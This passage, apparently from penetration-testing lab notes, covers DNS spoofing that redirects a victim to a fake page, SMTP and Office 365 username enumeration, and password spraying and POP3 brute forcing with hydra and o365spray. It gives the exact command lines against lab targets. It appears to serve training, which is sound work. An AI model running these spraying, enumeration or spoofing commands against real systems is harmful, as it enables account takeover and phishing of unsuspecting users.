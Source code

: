 Activate `dns_spoof` attack by navigating to `Plugins > Manage Plugins`. This sends the target machine with fake DNS responses that will resolve `inlanefreight.com` to IP address `192.168.225.110`:

After a successful DNS spoof attack, if a victim user coming from the target machine `192.168.152.129` visits the `inlanefreight.com` domain on a web browser, they will be redirected to a `Fake page` that is hosted on IP address `192.168.225.110`:

In addition, a ping coming from the target IP address `192.168.152.129` to `inlanefreight.com` should be resolved to `192.168.225.110` as well

## Attacking SMTP

<figure><img src=".gitbook/assets/Untitled (19).png" alt=""><figcaption></figcaption></figure>

* We can use tool \[`smtp-user-enum](<https://github.com/pentestmonkey/smtp-user-enum>).`
  * `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`
* [O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365) developed by [ZDH](https://twitter.com/0xzdh).
  * `python3 o365spray.py --validate --domain msplaintext.xyz` → check if target domain is using Office 365
  * `python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz` → attempt to identify usernames

## **Password Attacks**

* `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`
* `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz`

